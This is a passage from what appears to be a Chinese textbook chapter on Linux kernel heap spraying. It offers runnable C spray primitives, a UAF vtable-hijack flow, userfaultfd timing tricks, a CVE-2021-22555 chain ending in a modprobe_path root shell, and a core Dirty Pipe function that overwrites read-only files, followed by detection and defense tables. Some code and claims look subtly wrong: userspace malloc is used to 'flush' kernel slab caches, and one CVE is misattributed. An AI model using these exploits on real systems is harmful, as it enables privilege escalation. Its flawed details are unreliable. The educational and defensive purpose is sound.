 * - 数据完全可控（任意字节模式）
 * - 每次调用产生一次独立的 kmalloc 分配
 * - 不需要维护状态（设置后直接生效，无需消息队列）
 * - 分配后属性值不会被移动或重新排列
 *
 * 劣势：
 * - 每个文件的属性数量有上限（ext4 默认约 200 个）
 * - 需要一个可写文件系统上的文件（tmpfs 最佳）
 * - 属性值分配在 kmalloc-XX 中，大小按 slab 档位对齐
 * - 无法直接读取内核中存储的原始数据
 * - 需要 CAP_FOWNER 或 root 权限设置 user.* 属性
 *
 * @param target_file: 用于设置属性的文件路径（需要可写）
 * @param alloc_size: 在内核中分配的字节数
 * @param data: 要写入的数据
 * @param data_size: 数据大小
 * @param attr_index: 属性索引（用于设置多个不同属性）
 * @return: 0 成功，-1 失败
 */
int spray_setxattr(const char *target_file, size_t alloc_size,
                   const void *data, size_t data_size, int attr_index) {
    char attr_name[64];
    snprintf(attr_name, sizeof(attr_name), "user.spray_%d", attr_index);

    void *buf = malloc(alloc_size);
    if (!buf) {
        perror("[-] malloc");
        return -1;
    }

    if (data && data_size > 0) {
        // 用目标数据循环填充（可能需要重复多次填满 alloc_size）
        size_t copied = 0;
        while (copied < alloc_size) {
            size_t chunk = (alloc_size - copied) < data_size ? (alloc_size - copied) : data_size;
            memcpy((char *)buf + copied, data, chunk);
            copied += chunk;
        }
    } else {
        memset(buf, 0x41, alloc_size);
    }

    int ret = setxattr(target_file, attr_name, buf, alloc_size, 0);
    if (ret < 0) {
        if (errno == ENOSPC || errno == EDQUOT) {
            fprintf(stderr, "[!] xattr limit reached at index %d\n", attr_index);
        } else {
            perror("[-] setxattr");
        }
        free(buf);
        return -1;
    }

    free(buf);
    return 0;
}

/**
 * 批量 setxattr 喷射
 * 通过在多个临时文件上设置属性，绕过单文件属性数量限制
 *
 * 策略：每个文件设置约 128 个属性（保守估计），
 * 需要 N 个临时文件来放置 count 个喷射对象
 */
int batch_setxattr_spray(size_t alloc_size, const void *data, size_t data_size,
                         int total_count) {
    char tmpfile[256];
    int sprayed = 0;

    for (int file_idx = 0; sprayed < total_count; file_idx++) {
        snprintf(tmpfile, sizeof(tmpfile), "/tmp/spray_%d_%d", getpid(), file_idx);

        // 在 tmpfs 上创建临时文件（避免磁盘 I/O）
        FILE *f = fopen(tmpfile, "w");
        if (!f) {
            perror("[-] fopen");
            break;
        }
        fprintf(f, "placeholder");
        fclose(f);

        int attrs_per_file = 128;
        for (int attr_idx = 0; attr_idx < attrs_per_file && sprayed < total_count; attr_idx++) {
            if (spray_setxattr(tmpfile, alloc_size, data, data_size, sprayed) == 0) {
                sprayed++;
            } else {
                break;
            }
        }
    }

    printf("[+] setxattr spray: %d objects of %zu bytes (%zuKB total)\n",
           sprayed, alloc_size, sprayed * alloc_size / 1024);
    return sprayed;
}

/**
 * 清理 setxattr 喷射产生的临时文件
 */
void cleanup_setxattr_spray_files(int count) {
    char tmpfile[256];
    int files = count / 128 + 1;
    for (int i = 0; i < files; i++) {
        snprintf(tmpfile, sizeof(tmpfile), "/tmp/spray_%d_%d", getpid(), i);
        unlink(tmpfile);
    }
}
```

#### pipe_buffer 喷射

`pipe_buffer` 是 Linux 内核中用于管道 I/O 的数据结构。这种喷射原语在内核提权利用中非常流行，特别是在 Dirty Pipe（CVE-2022-0847）和 PipePanic 等漏洞中：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>

/**
 * pipe_buffer 结构在内核中的布局（64 位内核）：
 *
 * struct pipe_buffer {
 *     struct page *page;      // 8 字节 - 指向页面
 *     unsigned int offset;    // 4 字节 - 页内偏移
 *     unsigned int len;       // 4 字节 - 数据长度
 *     const struct pipe_buf_operations *ops;  // 8 字节 - 操作函数表（可劫持！）
 *     unsigned int flags;     // 4 字节
 *     unsigned long private;  // 8 字节
 * };  // 总计 36 字节，对齐后通常 40 字节（kmalloc-64）
 *
 * pipe_buffer 分配在 kmalloc-64 缓存中
 * 每个 pipe_inode_info 包含一个 pipe_buffer 数组（通常 16 个）
 * 管道创建时分配，关闭时释放
 */

#define NUM_PIPES 256
#define PIPE_BUF_SIZE 4096

struct pipe_spray_ctx {
    int pipes[NUM_PIPES][2];  // 管道文件描述符对
    int count;
};

/**
 * 初始化 pipe_buffer 喷射
 * 创建管道并写入初始数据，触发 pipe_buffer 结构的分配
 */
int pipe_buffer_init(struct pipe_spray_ctx *ctx) {
    ctx->count = 0;

    for (int i = 0; i < NUM_PIPES; i++) {
        if (pipe(ctx->pipes[i]) < 0) {
            perror("[-] pipe");
            return -1;
        }

        // 写入一个字节触发 pipe_buffer 分配
        // pipe_buffer 在第一次 write() 时分配
        char data = 0x41;
        if (write(ctx->pipes[i][1], &data, 1) != 1) {
            perror("[-] write to pipe");
            close(ctx->pipes[i][0]);
            close(ctx->pipes[i][1]);
            return -1;
        }

        ctx->count++;
    }

    printf("[+] Created %d pipes with pipe_buffer structures\n", ctx->count);
    return 0;
}

/**
 * 在 pipe_buffer 中写入可控数据
 * pipe_buffer 指向的页面内容通过 write() 控制
 * 页面内容存储在 page cache 中，可以包含任意字节模式
 */
int pipe_buffer_write_data(struct pipe_spray_ctx *ctx, int index, const void *data, size_t len) {
    if (index < 0 || index >= ctx->count) return -1;

    // 读空管道，重置 pipe_buffer 状态
    char dummy[PIPE_BUF_SIZE];
    while (read(ctx->pipes[index][0], dummy, sizeof(dummy)) > 0);

    // 写入新数据
    size_t to_write = len > PIPE_BUF_SIZE ? PIPE_BUF_SIZE : len;
    if (write(ctx->pipes[index][1], data, to_write) != (ssize_t)to_write) {
        perror("[-] write");
        return -1;
    }

    return 0;
}

/**
 * 释放部分 pipe_buffer，制造堆空洞
 * 这是 UAF 利用中的关键步骤
 */
int pipe_buffer_free_half(struct pipe_spray_ctx *ctx) {
    char dummy;
    int freed = 0;

    for (int i = 0; i < ctx->count; i += 2) {
        // 读取所有数据，触发 pipe_buffer 释放
        while (read(ctx->pipes[i][0], &dummy, 1) > 0);
        freed++;
    }

    printf("[+] Freed %d pipe_buffer structures (created holes)\n", freed);
    return freed;
}

/**
 * 重新喷射：在空洞位置分配新的 pipe_buffer
 */
int pipe_buffer_respawn(struct pipe_spray_ctx *ctx, const void *fake_data, size_t data_len) {
    int respawned = 0;

    for (int i = 0; i < ctx->count; i += 2) {
        close(ctx->pipes[i][0]);
        close(ctx->pipes[i][1]);

        if (pipe(ctx->pipes[i]) < 0) continue;

        size_t to_write = data_len > PIPE_BUF_SIZE ? PIPE_BUF_SIZE : data_len;
        if (write(ctx->pipes[i][1], fake_data, to_write) == (ssize_t)to_write) {
            respawned++;
        }
    }

    printf("[+] Respawned %d pipe_buffer with controlled data\n", respawned);
    return respawned;
}

void pipe_buffer_cleanup(struct pipe_spray_ctx *ctx) {
    for (int i = 0; i < ctx->count; i++) {
        close(ctx->pipes[i][0]);
        close(ctx->pipes[i][1]);
    }
    ctx->count = 0;
}
```

#### sk_buff 喷射

`sk_buff`（socket buffer）是 Linux 网络子系统的核心数据结构。通过网络套接字操作触发分配：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <linux/if_packet.h>
#include <net/ethernet.h>
#include <unistd.h>

/**
 * sk_buff 喷射通过 AF_PACKET 套接字实现
 * 每个发送的数据包在内核中对应一个 sk_buff 结构
 *
 * sk_buff 关键字段（64 位内核，约 240 字节）：
 * - next/prev: 16 字节（链表指针，可被利用）
 * - tstamp: 8 字节
 * - sk: 8 字节（关联的 socket）
 * - dev: 8 字节（网络设备）
 * - cb[48]: 48 字节（控制块，可通过 sendmsg 控制内容）
 * - len: 4 字节
 * - data_len: 4 字节
 * - mac_header: 2 字节
 * - network_header: 2 字节
 * - transport_header: 2 字节
 * ... 总计约 240 字节，分配在 kmalloc-256 中
 */

int spray_sk_buff(int payload_size, const void *payload, int count) {
    int sock = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if (sock < 0) {
        perror("[-] socket(AF_PACKET)");
        return -1;
    }

    // 构造以太网帧
    int frame_size = payload_size < 60 ? 60 : payload_size;
    char *frame = calloc(1, frame_size);
    if (!frame) { close(sock); return -1; }

    memset(frame, 0xff, 6);      // 目的 MAC（广播）
    memset(frame + 6, 0x42, 6);  // 源 MAC
    frame[12] = 0x88;            // EtherType
    frame[13] = 0xb5;

    if (payload && payload_size > 0) {
        memcpy(frame + 14, payload, payload_size < frame_size - 14 ? payload_size : frame_size - 14);
    }

    struct sockaddr_ll addr = {0};
    addr.sll_family = AF_PACKET;
    addr.sll_protocol = htons(ETH_P_ALL);
    addr.sll_ifindex = 1;  // lo 回环接口

    int sent = 0;
    for (int i = 0; i < count; i++) {
        if (sendto(sock, frame, frame_size, 0, (struct sockaddr *)&addr, sizeof(addr)) > 0) {
            sent++;
        }
    }

    printf("[+] sk_buff spray: %d/%d packets sent (size=%d)\n", sent, count, frame_size);
    free(frame);
    close(sock);
    return sent;
}
```

#### add_key / perf_event 喷射

**add_key**：Linux 密钥管理系统（keyctl）的 `add_key()` 系统调用会在内核中分配可变大小的缓冲区来存储密钥数据。这种分配可以在 `kmalloc-32` 到 `kmalloc-4k` 之间任意大小，且数据完全可控：

```c
/**
 * add_key 堆喷射
 * 优势：大小精确可控（0 到页面大小），数据完全可控
 * 劣势：需要 CONFIG_KEYS 支持，某些发行版默认禁用
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <keyutils.h>

int spray_add_key(size_t data_size, const void *data, int count) {
    int sprayed = 0;
    char key_desc[64];

    for (int i = 0; i < count; i++) {
        snprintf(key_desc, sizeof(key_desc), "spray_%d", i);
        // add_key 在内核中分配 sizeof(description) + data_size 字节
        // 但描述符通常很短，主要大小由 data_size 决定
        key_serial_t key = add_key("user", key_desc, data, data_size,
                                    KEY_SPEC_PROCESS_KEYRING);
        if (key < 0) {
            perror("[-] add_key");
            break;
        }
        sprayed++;
    }

    printf("[+] add_key spray: %d objects of %zu bytes\n", sprayed, data_size);
    return sprayed;
}
```

**perf_event**：`perf_event_open()` 会分配 `perf_event_context` 和 `perf_event` 结构，是另一种内核堆喷射原语。在 Android 内核利用中特别常见，因为 Android 的 SELinux 策略通常不限制 perf_event 的使用。

#### 常用喷射原语对比

| 原语 | 分配大小范围 | 数据可控 | 分配稳定性 | 信息泄露 | 典型用途 |
|------|-------------|---------|-----------|---------|---------|
| msg_msg | 49B-64KB | 完全可控 | 高 | 可读取消息 | 通用堆喷射、信息泄露 |
| setxattr | 0-64KB | 完全可控 | 中 | 不可直接读 | 精确大小分配、堆风水 |
| pipe_buffer | ~40B (kmalloc-64) | 页面内容可控 | 高 | 不可直接读 | UAF 覆盖、Dirty Pipe |
| sk_buff | ~240B (kmalloc-256) | 帧内容可控 | 中 | 不可直接读 | 网络相关漏洞 |
| add_key | 0-4KB | 完全可控 | 中 | 不可直接读 | 通用内核堆喷射 |
| perf_event | ~120B | 结构字段部分可控 | 中 | 可通过 perf_read | Android 内核利用 |
| sendmsg/recvmsg | ~160B | 完全可控 | 高 | 不可直接读 | 套接字相关漏洞 |
| timerfd | ~120B | 结构字段可控 | 高 | 不可直接读 | 特定大小的堆风水 |

### 31.5.4 堆喷射在 UAF 利用中的应用

UAF（Use-After-Free）是堆喷射最重要的应用场景。当一个对象被释放（free）后，其内存被归还给分配器，但程序仍持有指向该内存的悬垂指针（dangling pointer）。堆喷射的核心目标是：**在原对象被释放后，用攻击者可控的数据重新占据同一块内存**。



#### UAF 利用完整流程

```c
/**
 * UAF 利用的完整堆喷射流程
 * 以一个假设的内核驱动漏洞为例
 */

// 步骤 1：确定目标对象的大小和布局
// 通过 /proc/slabinfo 或 crash 工具查看
// 假设目标对象大小为 192 字节（kmalloc-192 缓存）
#define TARGET_OBJ_SIZE 192

// 步骤 2：堆风水 - 在目标缓存中制造空洞
// 策略：先大量分配填满缓存，然后间隔释放制造空洞
void heap_feng_shui_phase1() {
    // 分配大量目标大小的对象，填满 slab
    for (int i = 0; i < 1000; i++) {
        alloc_target_object(i);
    }

    // 间隔释放，制造大小合适的空洞
    for (int i = 0; i < 1000; i += 2) {
        free_target_object(i);  // 释放偶数索引的对象
    }
    // 此时内存布局：[空闲][占用][空闲][占用]...
    // 喷射时，新的分配会填入空闲槽位
}

// 步骤 3：触发漏洞 - 释放目标对象但仍持有悬垂指针
void trigger_uaf() {
    vulnerable_free(target_object_id);

    // 此时 target_object 的内存已被归还
    // 但内核中某个路径仍可通过悬垂指针访问它
}

// 步骤 4：堆喷射覆盖 - 用可控数据填充释放的内存
void spray_over_freed_object() {
    char fake_obj[TARGET_OBJ_SIZE];
    memset(fake_obj, 0, TARGET_OBJ_SIZE);

    // 偏移 0x00: 伪造的虚表指针（劫持控制流的关键）
    *(uint64_t *)(fake_obj + 0) = controlled_fake_vtable_addr;

    // 偏移 0x08: 其他字段按需填充
    *(uint64_t *)(fake_obj + 8) = 0xdeadbeef;

    // 使用 msg_msg 喷射（大小匹配 kmalloc-192）
    msg_msg_spray(TARGET_OBJ_SIZE, fake_obj, 500);
}

// 步骤 5：通过悬垂指针触发控制流劫持
void exploit_via_dangling_pointer() {
    // 通过原引用调用目标对象的虚方法
    // 由于对象已被我们的伪造数据覆盖
    // 虚表指针指向我们控制的地址
    // -> 劫持控制流
    trigger_virtual_call(dangling_pointer);
}
```

#### 堆风水（Heap Feng Shui）详解

堆风水是堆喷射的"升级版"——不是盲目地大量分配，而是通过精心设计的分配/释放序列，将堆布局塑造成利于利用的状态。

```text
理想的堆布局目标（间隔空洞）：
┌──────────┬──────────┬──────────┬──────────┐
│ 目标对象 │ 攻击数据 │ 目标对象 │ 攻击数据 │  ...
│ (已释放) │ (喷射)   │ (已释放) │ (喷射)   │
└──────────┴──────────┴──────────┴──────────┘
        ↑                ↑
    原悬垂指针1      原悬垂指针2

不理想的堆布局（连续空闲块会被合并）：
┌──────────┬──────────┬──────────┬──────────┐
│ 目标对象 │ 目标对象 │ 目标对象 │ 攻击数据 │
│ (已释放) │ (已释放) │ (已释放) │ (喷射)   │
└──────────┴──────────┴──────────┴──────────┘
^ 连续空闲块被 SLUB 合并，喷射可能落不到预期位置
```

**堆风水的四种策略**：

| 策略 | 原理 | 适用场景 | 难度 |
|------|------|---------|------|
| 顺序喷射法 | 不关心布局，纯靠数量覆盖 | 堆空间有限、喷射成本低 | 低 |
| 间隔释放法 | 先分配填满，再间隔释放制造空洞 | UAF 利用、最常用 | 中 |
| 精确布局法 | 分析 SLUB freelist 顺序，精确控制位置 | 需要深度理解分配器 | 高 |
| 双重释放法 | 利用 double-free 制造两个悬垂指针，一次喷射覆盖两个目标 | 特定漏洞场景 | 极高 |

### 31.5.5 堆喷射与 ROP/JOP 的协同

堆喷射本身不执行代码，但它为 ROP/JOP（31.4 节）链的布置提供了"基础设施"。在现代漏洞利用中，两者的协同模式如下：

**模式 1：堆喷射布置 ROP 链**

```text
攻击流程：
1. 漏洞触发 → 控制 RIP/EIP
2. 跳转到堆喷射覆盖的地址（如 0x0c0c0c0c）
3. 该地址处是精心构造的 ROP 链（不是 shellcode）
4. ROP 链执行 → 绕过 DEP/W^X → 最终执行 shellcode

堆喷射内容布局：
┌────────────────────────────────────────────┐
│ [gadget1_addr] [gadget2_addr] [gadget3]... │  ← ROP 链
│ [nop nop nop nop ...]                      │  ← NOP sled（容错）
│ [shellcode]                                │  ← 实际 payload
└────────────────────────────────────────────┘
```

**模式 2：堆喷射布置伪造对象（虚表劫持）**

```text
攻击流程：
1. 漏洞触发 → 释放对象（UAF）
2. 堆喷射在原位置覆盖伪造对象
3. 伪造对象的虚表指针 → 指向堆上的 gadget 地址
4. 虚函数调用 → 通过虚表跳转到 gadget → 执行 ROP

堆喷射内容布局：
┌────────────────────────────────────────────┐
│ [fake_vtable_ptr] [padding...]             │  ← 伪造对象头
│ [gadget1_addr] [gadget2_addr] ...          │  ← 伪造虚表（在对象后方）
│ [nop sled] [shellcode]                     │  ← 最终 payload
└────────────────────────────────────────────┘
```

**模式 3：堆喷射布置信息泄露**

```text
攻击流程：
1. 堆喷射覆盖目标对象（包含可控数据）
2. 通过信息泄露漏洞读取被覆盖的对象
3. 从读取的数据中提取内核基地址、堆地址
4. 利用泄露的地址绕过 KASLR
5. 第二次堆喷射使用精确计算的目标地址

这种"先泄露、再喷射"的两阶段策略是现代内核利用的标准范式
```

### 31.5.6 现代堆喷射技术

#### SLUB 分配器特性利用

现代 Linux 内核使用 SLUB 分配器，其行为对堆喷射策略有重要影响：



**利用 SLUB 特性的技巧**：

```c
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/**
 * 绑定到单个 CPU，消除 Per-CPU freelist 的不确定性
 * 这是内核堆喷射的标准前置操作
 */
void pin_cpu(int cpu) {
    cpu_set_t set;
    CPU_ZERO(&set);
    CPU_SET(cpu, &set);
    if (sched_setaffinity(0, sizeof(set), &set) < 0) {
        perror("[-] sched_setaffinity");
    } else {
        printf("[+] Pinned to CPU %d\n", cpu);
    }
}

/**
 * 清空 Per-CPU slab 缓存，确保从 buddy system 获取新页面
 * 减少 freelist 随机化的影响
 */
void flush_per_cpu_cache(size_t obj_size, int count) {
    // 分配大量对象撑满当前 slab 页
    void **ptrs = malloc(count * sizeof(void *));
    for (int i = 0; i < count; i++) {
        ptrs[i] = malloc(obj_size);
        memset(ptrs[i], 0x41, obj_size);
    }

    // 释放所有对象，让 slab 缓存中有大量空闲条目
    // 新的分配会从这些空闲条目中获取，顺序更可预测
    for (int i = 0; i < count; i++) {
        free(ptrs[i]);
    }
    free(ptrs);

    printf("[+] Flushed %d objects of size %zu\n", count, obj_size);
}

/**
 * 利用 SLUB 的 partial list 行为
 * 当当前 slab 页满时，SLUB 会从 partial list 获取新的 slab 页
 * 通过控制 partial list 的状态，可以影响分配的内存位置
 */
```

#### 通过触发页错误控制分配时序

在某些利用场景中，可以通过触发页错误来精确控制内核代码的执行时序，从而在堆喷射的关键窗口期插入操作：

```c
#include <sys/mman.h>
#include <signal.h>
#include <linux/userfaultfd.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <stdio.h>

/**
 * userfaultfd 是控制内核分配时序的利器
 *
 * 原理：
 * 1. 注册一个 userfaultfd 并监控某个内存区域
 * 2. 当内核访问该区域时（如 copy_from_user），会触发页错误
 * 3. 内核在页错误处理中阻塞，等待用户态提供页面内容
 * 4. 此时用户态可以执行堆喷射操作
 * 5. 用户态完成喷射后，提供页面内容，内核继续执行
 *
 * 这创造了一个"暂停时间"窗口，使得竞态条件利用变得确定性
 *
 * 注意：userfaultfd 需要 CONFIG_HAVE_ARCH_USERFAULTFD
 * 在较新的内核中非特权用户可能无法使用（需要 CAP_SYS_PTRACE）
 */
static int create_uffd(void) {
    int uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd < 0) {
        perror("[-] userfaultfd");
        return -1;
    }

    struct uffdio_api api = { .api = UFFD_API };
    if (ioctl(uffd, UFFDIO_API, &api)) {
        perror("[-] UFFDIO_API");
        close(uffd);
        return -1;
    }

    return uffd;
}

/**
 * 注册 userfaultfd 监控区域
 * 当内核写入这块内存时，页错误处理器被触发
 * 我们可以在页错误处理期间执行堆喷射
 */
static int register_uffd(int uffd, void *addr, size_t len) {
    struct uffdio_register reg = {
        .range = { .start = (unsigned long)addr, .len = len },
        .mode = UFFDIO_REGISTER_MODE_MISSING
    };

    if (ioctl(uffd, UFFDIO_REGISTER, &reg)) {
        perror("[-] UFFDIO_REGISTER");
        return -1;
    }

    printf("[+] Registered userfaultfd for %p-%p\n", addr, (char *)addr + len);
    return 0;
}

// userfaultfd 完整的利用流程需要多线程配合：
// 线程 A：触发内核写入监控区域 → 阻塞在页错误
// 线程 B：处理页错误 → 在回调中执行堆喷射 → 解除阻塞
// 这个模式在 DirtyPagetable (CVE-2022-2588) 等漏洞中被广泛使用
```

#### 跨缓存攻击（Cross-Cache Attack）

当目标对象和喷射原语不在同一个 slab 缓存中时，需要使用跨缓存技术：

```c
/**
 * 跨缓存喷射策略
 *
 * 问题：目标对象在 kmalloc-192 中，但你的喷射原语在 kmalloc-256 中
 *
 * 解决方案 1：使用大小匹配的原语
 * - msg_msg 支持 49B-64KB 的任意大小
 * - setxattr 支持 0-64KB 的任意大小
 * - 选择与目标大小匹配的原语
 *
 * 解决方案 2：利用 SLUB 合并
 * - 当两个 slab 缓存的 object size 相近时，SLUB 可能合并它们
 * - 例如：kmalloc-192 和 kmalloc-256 在某些配置下共享 slab 页
 *
 * 解决方案 3：利用 buddy system 回收
 * - 当一个 slab 页的所有对象都被释放时，SLUB 将页面归还给 buddy system
 * - 然后重新分配给另一个 slab 缓存
 * - 通过大量分配/释放触发这个过程
 *
 * 实际操作步骤：
 * 1. 在目标缓存（kmalloc-192）中大量分配
 * 2. 触发 UAF，释放目标对象
 * 3. 释放 kmalloc-192 中的所有对象，触发 slab 页回收到 buddy
 * 4. 在 kmalloc-256 中大量分配，重新从 buddy 获取页面
 * 5. 这些新页面可能就是之前 kmalloc-192 使用的页面
 */
```

### 31.5.7 信息泄露中的堆喷射

堆喷射不仅用于代码执行，还广泛用于**信息泄露**——通过在已知位置布置可控数据，然后通过漏洞的读取原语来验证数据是否被正确放置，从而推断内核地址布局。

```text
信息泄露的典型流程：

1. 堆喷射：在 slab 中大量分配包含可控数据的对象
2. 触发漏洞的越界读（OOB Read）：读取目标对象相邻的数据
3. 在读取结果中搜索可控数据：如果找到了，说明喷射成功
4. 通过偏移计算：从喷射数据的位置推算出内核基地址

示例：
- 喷射 100 个 msg_msg 对象（每个包含 "AAAA" 标记）
- 触发相邻对象的越界读
- 在读取结果中搜索 "AAAA"
- 找到后，通过偏移计算内核 .data 或 .bss 段地址
- 用泄露的地址绕过 KASLR，进行后续利用
```

这种"先泄露、再利用"的两阶段策略是现代内核利用的标准范式，因为它绕过了 KASLR（内核地址空间布局随机化）这一关键防御机制。

### 31.5.8 检测与防御

#### 堆喷射的检测特征

堆喷射行为具有以下可观测特征，安全监控系统可以据此建立检测规则：

| 检测维度 | 特征指标 | 阈值参考 | 说明 |
|---------|---------|---------|------|
| 内存分配速率 | 单位时间内 kmalloc/malloc 调用次数 | >1000 次/秒 | 突发性大量分配是强信号 |
| 内存占用模式 | 短时间内大量相同大小的分配 | >100 个相同大小对象 | 正常程序很少有此行为 |
| 分配-释放模式 | 分配后立即释放再重新分配（堆风水） | 短时间内 >50% 释放率 | 模拟正常负载无法解释 |
| 数据内容特征 | 大量重复的 NOP sled 或 shellcode 特征 | 0x90 重复 >1000 次 | 内容层面的强特征 |
| API 调用模式 | 集中使用特定 syscall | 单一 syscall >100 次/秒 | msgsnd/setxattr 集中调用 |
| 进程行为 | 进程短时间内消耗大量内存但无明显业务需求 | 内存增长 >100MB/秒 | 需结合上下文判断 |

#### 内核防御机制

```mermaid
graph TD
    A["内核防御机制"] --> B["堆隔离"]
    A --> C["分配随机化"]
    A --> D["完整性校验"]
    A --> E["硬件辅助"]
    A --> F["权限控制"]

    B --> B1["SLAB_FREELIST_HARDENED"]
    B --> B2["堆对象间的 guard page"]
    B --> B3["CONFIG_RANDOM_KMALLOC_CACHES"]

    C --> C1["SLAB_FREELIST_RANDOMIZE"]
    C --> C2["Random kmalloc 偏移"]
    C --> C3["CONFIG_SLAB_MERGE_DEFAULT=n"]

    D --> D1["SLAB_FREELIST_HARDENED（freelist 指针 XOR）"]
    D --> D2["KASAN（内存访问检测）"]
    D --> D3["SLUB_DEBUG（红区检测）"]

    E --> E1["Intel LAM（线性地址掩码）"]
    E --> E2["ARM MTE（内存标签扩展）"]
    E --> E3["Intel CET（控制流强制）"]

    F --> F1["user namespace 限制"]
    F --> F2["seccomp-bpf 过滤"]
    F --> F3["CAP_BPF / CAP_PERFMON"]

    style A fill:#2196F3,stroke:#333,color:#fff
```



**SLAB_FREELIST_HARDENED**（Linux 4.14+）：对 freelist 指针进行 XOR 混淆，防止攻击者伪造 freelist 条目来精确控制堆布局：

```c
// 内核中的 freelist 混淆实现（简化）
static inline void *freelist_ptr(const struct kmem_cache *s, void *ptr,
                                  unsigned long ptr_addr) {
#ifdef CONFIG_SLAB_FREELIST_HARDENED
    // 混淆公式：ptr' = ptr XOR random XOR ptr_addr
    // 攻击者必须同时知道 random（内核秘密值）和 ptr_addr（内核地址）
    // 才能伪造合法的 freelist 指针
    return (void *)((unsigned long)ptr ^ s->random ^ ptr_addr);
#else
    return ptr;
#endif
}
```

**ARM MTE（Memory Tagging Extension）**：ARMv8.5 引入的硬件内存标签技术。每个 16 字节粒度的内存被赋予一个 4-bit 标签（16 种可能），指针也携带对应标签。访问标签不匹配的内存会触发异常。这从根本上阻止了 UAF + 堆喷射的利用方式，因为悬垂指针的标签与新分配对象的标签不同（除非攻击者碰巧猜对标签，概率 1/16）。

**Intel CET（Control-flow Enforcement Technology）**：通过 Shadow Stack 硬件保护返回地址不被篡改，直接阻断了基于栈溢出的利用路径。对堆喷射的间接影响是：攻击者不能再依赖 ret 指令来劫持控制流，必须转向虚表劫持等其他路径。

#### 防御绕过技术

尽管上述防御机制增加了利用难度，但攻击者也有对应的绕过手段：

| 防御机制 | 绕过技术 | 难度 |
|---------|---------|------|
| SLAB_FREELIST_RANDOMIZE | 大量分配+释放消除随机化影响 | 中 |
| SLAB_FREELIST_HARDENED | 利用信息泄露获取 random 值和地址 | 高 |
| KASAN | KASAN 增加对象间填充，改变布局预测模型 | 中 |
| CONFIG_RANDOM_KMALLOC_CACHES | 跨缓存攻击（利用 buddy 回收） | 高 |
| ARM MTE | 猜测标签（1/16 概率）或利用非 MTE 区域 | 极高 |
| Intel CET | 绕过 Shadow Stack（利用非返回地址跳转） | 高 |

### 31.5.9 实战案例分析

#### 案例 1：CVE-2021-22555（Netfilter 堆溢出 + msg_msg 堆喷射提权）

CVE-2021-22555 是 Linux 内核 Netfilter 子系统中影响范围极广的堆溢出漏洞（Linux 2.6.19+）。利用过程中大量使用了 msg_msg 堆喷射技术：

```c
/**
 * CVE-2021-22555 利用流程（简化）
 *
 * 漏洞根因：xt_compat_match_from_user() 中缺少边界检查
 * 导致向 kmalloc-128 中的 set_info 结构溢出
 *
 * 利用链：
 * 1. msg_msg 喷射在 kmalloc-128 中布局多个对象
 * 2. 触发 xt_compat_match_from_user 溢出
 * 3. 溢出覆盖相邻 msg_msg 的 m_ts（消息大小）字段
 * 4. 通过被修改的 m_ts，msgrcv 可以越界读取（信息泄露）
 * 5. 泄露内核 .data 段地址（绕过 KASLR）
 * 6. 再次溢出覆盖 msg_msg 的 m_list 链表指针
 * 7. 利用被控制的链表指针实现任意写原语
 * 8. 覆盖 modprobe_path 或 selinux_enforcing 实现提权
 */

// 步骤 1：创建消息队列并喷射
struct spray_context *spray = msg_msg_spray(128, NULL, 100);

// 步骤 2：触发堆溢出，覆盖相邻 msg_msg 的 m_ts
// m_ts 从 128 被覆盖为 256（或其他更大的值）

// 步骤 3：通过 msgrcv 读取被篡改的消息
// 由于 m_ts > 实际消息大小，会读取相邻对象的数据
// 从中泄露内核指针

// 步骤 4：利用泄露的地址，构造精确的任意写原语
// 覆盖 msg_msg 的 next 指针
// msgrcv 时会沿着被控制的 next 指针写入
// 实现任意地址写入

// 步骤 5：覆盖 modprobe_path 指向 /tmp/fake-modprobe
// 然后触发一个未知格式的文件执行
// 内核会执行 /tmp/fake-modprobe（以 root 权限）
// 在其中创建 setuid shell
```

**关键技术细节**：

- 溢出发生在 kmalloc-128 的 slab 中
- msg_msg 恰好可以分配在 kmalloc-128（消息数据 80 字节 + 48 字节头部 = 128）
- m_ts 字段的篡改使得信息泄露变得可能
- m_list 链表指针的篡改使得任意写原语成为可能
- 整个利用链不需要执行任何 shellcode，完全依赖数据篡改

#### 案例 2：CVE-2022-0847（Dirty Pipe）中的 pipe_buffer 利用

```c
/**
 * Dirty Pipe 简化利用思路
 *
 * 核心漏洞：pipe_buffer 的 PIPE_BUF_FLAG_CAN_MERGE 标志
 * 在 splice() 后未被正确清除，导致 pipe_write 可以覆写只读文件内容
 *
 * 与堆喷射的关系：
 * - 需要精确控制 pipe_buffer 的分配位置
 * - 确保 splice 操作将 pipe_buffer 重定向到目标文件的页面缓存
 * - pipe_buffer 的 flags 字段控制了写入行为
 */

// Dirty Pipe 利用的核心代码
int dirty_pipe_exploit(const char *target_file, off_t offset,
                        const char *data, size_t len) {
    int pipefd[2];
    pipe(pipefd);

    // 步骤 1：填充管道缓冲区，触发 pipe_buffer 分配
    // 确保 PIPE_BUF_FLAG_CAN_MERGE 标志被设置
    char buf[PIPE_BUF_SIZE];
    memset(buf, 0, sizeof(buf));
    write(pipefd[1], buf, sizeof(buf));

    // 步骤 2：读空管道，触发 pipe_buffer 释放和标志重置
    read(pipefd[0], buf, sizeof(buf));

    // 步骤 3：splice 目标文件到管道
    // 这会将 pipe_buffer 的 page 指针重定向到文件的页面缓存页面
    int fd = open(target_file, O_RDONLY);
    ssize_t ret = splice(fd, &offset, pipefd[1], NULL, 1, 0);

    // 步骤 4：写入数据
    // 由于 PIPE_BUF_FLAG_CAN_MERGE 未被清除
    // 这个写入会直接修改文件缓存页面（覆盖只读文件内容！）
    ret = write(pipefd[1], data, len);

    close(fd);
    close(pipefd[0]);
    close(pipefd[1]);
    return 0;
}
```

#### 案例 3：浏览器漏洞利用中的 JS 堆喷射（经典 IE 漏洞）

```javascript
/**
 * IE CVE-2010-0806 利用中的堆喷射（概念演示）
 *
 * 漏洞：vml_fill() 中的整数溢出导致堆溢出
 * 利用：通过 JS 堆喷射布置 shellcode，溢出覆盖虚表指针
 *
 * 攻击流程：
 * 1. 创建大量 VML 对象（触发堆喷射）
 * 2. 每个对象的属性包含 NOP sled + shellcode
